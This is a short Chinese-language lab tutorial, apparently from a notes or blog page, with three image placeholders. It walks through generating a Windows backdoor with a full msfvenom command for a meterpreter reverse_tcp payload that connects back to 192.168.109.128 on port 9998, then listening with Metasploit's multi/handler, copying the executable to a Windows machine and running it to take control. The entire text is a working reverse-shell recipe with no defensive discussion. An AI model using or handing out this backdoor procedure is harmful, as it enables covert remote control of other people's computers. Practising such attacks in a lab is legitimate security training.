



--   
在kali中，使用sudo msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.109.128 lport=9998 -f exe -o /var/payload.exe命令，生成在Windows上运行的后门。  
这个后门一旦运行，其将主动去连接192.168.109.128的9998端口。  
并将这个后门存放在/var目录下   
  
 
 
 
 

--   
在Metesploit中，使用exploit/multi/handler模块  
设置lhost lport 和payload  
运行开始监听  
  
 
 
 
 

--  
将生成的payload复制到Windows上并运行  
在kali中便可以控制Windows
  

